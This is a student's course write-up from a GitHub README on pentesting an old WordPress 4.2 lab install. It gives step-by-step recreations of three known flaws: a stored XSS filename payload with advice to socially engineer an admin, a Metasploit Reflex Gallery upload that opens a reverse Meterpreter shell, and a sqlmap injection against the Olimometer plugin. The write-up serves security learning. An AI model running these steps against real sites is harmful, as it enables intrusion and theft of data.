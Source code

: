 # cis221_codepath

See branches for assignments.

# Project 7 - WordPress Pentesting

Time spent: **25** hours spent in total

> Objective: Find, analyze, recreate, and document **five vulnerabilities** affecting an old version of WordPress

## Pentesting Report

### 1. CVE-2016-7168 -- WordPress 2.5-4.6 - Authenticated Stored Cross-Site Scripting via Image Filename 
  - [ ] Summary: Cross-site scripting (XSS) vulnerability in the media_handle_upload function in wp-admin/includes/media.php in WordPress before 4.6.1 might allow remote attackers to inject arbitrary web script or HTML by tricking an administrator into uploading an image file that has a crafted filename. 
    - Vulnerability types: Cross-site scripting
    - Tested in version: WordPress 4.2
    - Fixed in version: WordPress 4.6.1
  - [ ] GIF Walkthrough: <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.gif" alt="Walkthrough" style="max-width: 100%;">
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. WP version must be 2.5-4.6.
    2. Create an image file and insert '<img src=a onerror=alert(document.cookie)>' into the filename. This is the paylod script that will cause a javascript alert. For example, I used "marvinc0d3p4th<img src=a onerror=alert(document.cookie)>.jpg"
    3. Use social engineering to have admin of target host to upload image file as an attachment page. Even better is if you can get the admin to use the created attachment page url to embed into a post. 
    <img src="https://github.com/peelingwave/cis221_codepath/blob/Week-7%268-Project-Wordpress-Vs.-Kali/Pentest1-WP4.2-XSS_ImageUpload_exploit-marvin_codepath.png">
  - [ ] Affected source code: (https://github.com/WordPress/WordPress/commit/c9e60dab176635d4bfaaf431c0ea891e4726d6e0)
  
Reference: https://sumofpwn.nl/advisory/2016/persistent_cross_site_scripting_vulnerability_in_wordpress_due_to_unsafe_processing_of_file_names.html


### 2. CVE-2015-4133 -- WordPress Plugin Reflex Gallery - Arbitrary File Upload (Metasploit) 
  - [ ] Summary: This module exploits an arbitrary PHP code upload in the WordPress Reflex Gallery version 3.1.3. The vulnerability allows for arbitrary file upload and remote code execution. 
    - Vulnerability types: Arbitrary file upload, remote code execution.
    - Tested in version: WordPress 4.2, ReFlex Gallery plugin 3.1.3 [reflex-gallery.3.1.3.zip](https://github.com/peelingwave/cis221_codepath/files/8492582/reflex-gallery.3.1.3.zip)
    - Fixed in version: ReFlex Gallery plugin 3.1.4
  - [ ] GIF Walkthrough: 
    ![WP_reflex_gallery_pwned](https://user-images.githubusercontent.com/98624766/163491702-53e1d5cb-5cbf-4be2-b410-b855596067fd.gif)
  - [ ] Steps to recreate: 
    1. Confirm WordPress target host is vulnerable. Reflex Gallery plugin version older than 3.1.4 must be installed and activated.
    2. Upload image into Reflex gallery plugin.
    3. In Reflex gallery settings retrieve the short code and insert it into post. In my case the short code was: [ReflexGallery id='1']
    ![WP_reflex_gallery_pages](https://user-images.githubusercontent.com/98624766/163492792-0498b52d-a217-4414-9fbb-126535e69990.png)

    4. Run metasploit from attacker machine using the following commands:
        - sudo service postgresql start
        - sudo msfdb init
        - msfconsole
    5. in msfconsole shell, run the following commands to install the metasploit payload and create a connection with the target machine:
        - db_status
        - search Reflex #output should be: exploit/unix/webapp/wp_reflexgallery_file_upload
        - use exploit/unix/webapp/wp_reflexgallery_file_upload
        - info
        - set RHOST <url.of.target.machine>
        - set LHOST <url.of.attacker.machine>
        - exploit
    6. Meterpreter shell running, run the following commands to start a new shell inside the target machine:
        - shell
  
  - References:
  - https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2015-4133


### 3. WordPress Olimometer 2.56 SQL Injection
  - [ ] Summary: WordPress Olimometer plugin versions 2.56 and below suffer from a remote SQL injection vulnerability.
    - Vulnerability types: SQLI
    - Tested in version: WP 4.2, Olimometer 2.56
    - Fixed in version: Olimometer 2.57
  - [ ] GIF Walkthrough: ![sqlmap-olimometer](https://user-images.githubusercontent.com/98624766/163496922-57763920-7a90-4562-be8e-2e5273c1307d.gif)

  - [ ] Steps to recreate: 
    1. Ensure WP 4.2 and install Olimometer 2.56 or older onto target machine and activate the plugin. [olimometer.2.56.zip](https://github.com/peelingwave/cis221_codepath/files/8492878/olimometer.2.56.zip)

    2. In Olimometer plugin settings, retrieve short code and insert into post. In my case the short code was: [olimometer id=3]
    ![olimometer_shortcode](https://user-images.githubusercontent.com/98624766/163495767-e013ea2b-952a-477a-87d1-d1059913cd6d.png)

    3. In attacker machine run sqlmap command:
       - sqlmap -u http://path.to.target.machine/wp-content/plugins/olimometer/thermometer.php?olimometer_id=1 --dbs --threads=5 --random-agent --no-cast

  - References: https://packetstormsecurity.com/files/139921/WordPress-Olimometer-2.56-SQL-Injection.html
  
### 4. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php)
### 5. (Optional) Vulnerability Name or ID
  - [ ] Summary: 
    - Vulnerability types:
    - Tested in version:
    - Fixed in version: 
  - [ ] GIF Walkthrough: 
  - [ ] Steps to recreate: 
  - [ ] Affected source code:
    - [Link 1](https://core.trac.wordpress.org/browser/tags/version/src/source_file.php) 

## Assets


## Resources

- [WordPress Source Browser](https://core.trac.wordpress.org/browser/)
- [WordPress Developer Reference](https://developer.wordpress.org/reference/)


## Notes

Describe any challenges encountered while doing the work

## License

    Copyright [yyyy] [name of copyright owner]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
